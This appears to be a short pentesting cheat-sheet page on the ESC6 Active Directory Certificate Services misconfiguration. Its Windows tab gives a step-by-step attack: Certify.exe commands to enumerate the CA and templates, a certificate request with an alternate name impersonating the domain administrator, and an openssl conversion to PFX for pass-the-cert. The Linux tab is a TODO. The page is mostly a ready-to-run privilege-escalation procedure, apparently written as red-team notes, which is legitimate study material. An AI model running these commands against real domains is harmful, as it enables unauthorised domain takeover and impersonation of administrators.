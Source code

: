 # ESC6

{% hint style="info" %}
The CA has EDITF\_ATTRIBUTESUBJECTALTNAME2 flag set.
{% endhint %}

{% tabs %}
{% tab title="Linux" %}
//TODO
{% endtab %}

{% tab title="Windows" %}
Retrieve the CA name

```powershell
./Certify.exe cas
```

Look for a template that allow enrollment for normal user

```cmd
C:\AD\Tools\Certify.exe find
```

and request a certificate as any user you want using the "CA-integration" template

{% code overflow="wrap" %}
```powershell
C./Certify.exe request /ca:<DC.DOMAIN>\<CA> /template:"CA-Integration" /altname:<DOMAIN>\administrator
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/Pasted image 20231115142421 (1).png" alt=""><figcaption></figcaption></figure>

Save it and convert it

{% code overflow="wrap" %}
```powershell
./openssl.exe pkcs12 -in <CERT> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <PFX>
```
{% endcode %}

and [pass-the-cert.md](../../lateral-movement/pass-the/pass-the-cert.md "mention")
{% endtab %}
{% endtabs %}

